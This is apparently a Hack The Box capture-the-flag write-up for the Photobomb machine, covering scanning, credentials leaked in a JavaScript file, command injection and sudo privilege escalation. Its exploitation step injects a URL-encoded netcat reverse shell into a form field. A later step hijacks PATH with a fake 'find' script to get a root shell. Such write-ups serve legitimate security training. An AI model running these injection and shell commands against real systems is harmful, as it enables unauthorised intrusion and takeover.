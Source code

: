 ```yaml
---
title: Hack the Box - Writeup (Photobomb)
description: This is a walkthrought for the Photobomb CTF on Hack The Box. It
  shows how easily we can exploit an Basic HTTP Authentication.
category: Writeup
author:
  name: Farouk Mokhtari
  email: fmokhtari@mail.ru
  website: https://fmokhtari.com
  btc: 1JJmuidSTRCugnBKH8H7bDxEmTtAAg4kyn
  usdt: TWi6yNRhxzkmgZhhoriDzWgvrSsxbdQCb8
  xmr: 87Asjp2TLCkKnw3PYsiKaTDwL8mNhiL7uV67ptCtVxqbSnaZfATQ6t4d1mfWnKu4kB4ieQHMApGhUdUY3h4RKBS2Kuc5RyW
tags:
  - hackthebox
  - ctfs
date: 2022-12-12T06:30:49.237Z
---
```

## Introduction

This machine is an easy machine that demonstrates how you can easily exploit a
basic HTTP Authentication.

## Enumeration

After the usual nmap scan we have the following results.

```shell
# Nmap 7.93 scan initiated Wed Dec  7 19:50:38 2022 as: nmap -sC -sV -v -oA 10.10.11.182-full.txt 10.10.11.182
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.096s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Photobomb
| http-methods:
|_  Supported Methods: GET HEAD
|_http-favicon: Unknown favicon MD5: 622B9ED3F0195B2D1811DF6F278518C2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec  7 19:50:53 2022 -- 1 IP address (1 host up) scanned in 14.63 seconds
```

2 posts open :

- 22 (ssh)
- 80 (http) [photobomb.htb](http://photobomb.htb/)

As usual we add the domain to our **/etc/hosts** file. Since we know port 80 is
open, we do an enumeration for a list of directories.

```shell
gobuster dir -w wordlist.txt -u http://photobomb.htb/ -x php,txt,html
```

We find a url [http://photobomb.htb/printer](http://photobomb.htb/printer) that
takes us to a login session.

The login session is a Basic HTTP Authentication. After checking the page source
code we find something interesting in there. we find this file
[photobomb.js](http://photobomb.htb/photobomb.js)

```javascript
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (
    document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)
  ) {
    document
      .getElementsByClassName("creds")[0]
      .setAttribute("href", "http://pH0t0:b0Mb!@photobomb.htb/printer");
  }
}
window.onload = init;
```

This javascript file contains the credentials to the session, as it says in the
commented line.

## Exploitation

This is an easy one to exploit since we can encode in the URL a reverse shell
that gives us the access to the machine.

```shell
 curl -X POST -u pH0t0:b0Mb! "http://photobomb.htb/printer" -d "photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=png;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.10.14.78%201234%20%3E%2Ftmp%2Ff&dimensions=3000x2000"
```

You have a shell. So after getting the user flag it's easy to elevate your
priviledges.

```shell
 sudo -l
```

gives this result

```shell
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

## Priviledge Escalation

It means we can execute **/opt/cleanup.sh** with some environment variables as
root.

```shell
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;

```

Create a file that contains the following.

```shell
 echo '/bin/bash -i'>find
 chmod +x find
```

Run this command now.

```shell
 sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

You're root, now you know the drill.

